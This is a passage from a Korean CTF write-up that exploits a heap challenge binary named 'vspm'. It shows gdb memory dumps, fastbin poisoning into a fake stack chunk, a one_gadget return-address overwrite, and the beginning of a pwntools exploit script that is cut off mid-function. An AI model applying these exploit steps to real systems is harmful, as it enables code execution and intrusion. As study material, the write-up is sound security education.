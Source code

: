 여기에서 트릭이 하나 있는데, chunk header는 굳이 alignment가 맞지 않아도 되기 때문에 stack 주소의 가장 상위 바이트가 `0x7f`인 점을 생각해서 메모리를 다시 출력해보았다.
``` bash
gef➤  x/16gx 0x7fffffffdbd5
0x7fffffffdbd5: 0x0000000000000000      0xffffffdce0000000
0x7fffffffdbe5: 0xfff7a6dd8e00007f      0xfff7ff400000007f
0x7fffffffdbf5: 0x300000000800007f      0xffffffdcd0000000
0x7fffffffdc05: 0xffffffdc1000007f      0x000000000a00007f
0x7fffffffdc15: 0xffffffdcd4000000      0x000000000000007f
0x7fffffffdc25: 0xfff7b030c3000000      0x000000000000007f
0x7fffffffdc35: 0xffffffdcc0000000      0x55555551a000007f
0x7fffffffdc45: 0x5555555397000055      0x555555618f000055
```
이렇게 fake chunk header로 활용할 수 있는 영역이 `0x7fffffffdc15`와 `0x7fffffffdc25` 두 군데가 있는데, `fd`를 `0x7fffffffdc15`로 설정할 경우는 `malloc()`에 실패하고, `0x7fffffffdc25`로 설정할 경우는 `malloc()`에 성공한다.

예상되는 이유는 해당 영역이 현재 함수의 stack 바로 위 영역이라서 `malloc()`의 stack 영역과 겹치게 되고, `malloc()` 내부적으로 stack을 사용하다가 `0x7fffffffdc15`에 저장된 값이 overwrite되는 것으로 추정된다.

어쨌거나 `0x7fffffffdc25`를 `fd`로 설정하기 위해 획득한 stack 주소와의 offset을 계산해서 `0x55555555d1d0`을 할당받은 후 입력해주면 fastbin은 다음과 같이 구성된다.

- `0x55555555d160` -> `0x55555555d1d0` -> `0x7fffffffdc35`

따라서 이후 3번째 `malloc()`에서 stack의 주소가 반환되고, offset을 계산해서 `read()`의 `return address`를 one shot 가젯으로 덮어주면 된다.
``` python
    payload = p64(stack - 0xa3)
    save(s, 0x60, payload, b"5555")
    save(s, 0x60, b"GGGG", b"6666")
    save(s, 0x60, payload, b"7777")
    
    delete(s, b"0")
    one_gadget = 0xe1fa1
    payload = b"A" * 0x13
    payload += p64(libc + one_gadget)
    save(s, 0x68, payload, b"0000", fin = 1)
```

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
from argparse import ArgumentParser

BINARY = "vspm"
code_base = 0x0000555555554000
bp = {
    'save' : code_base + 0x12EE,
    'malloc_of_save' : code_base + 0x1414,
    'check' : code_base + 0x14ED,
    'cred' : code_base + 0x4060,
}

gs = f'''
continue
b *{bp['malloc_of_save']}
'''
context.terminal = ['tmux', 'splitw', '-hf']

def save(s, length, cred, name, fin = 0):
    s.sendline(b"1")
    s.recvuntil(b"length: ")
    s.sendline(str(length).encode())
    s.recvuntil(b"credentials: ")
```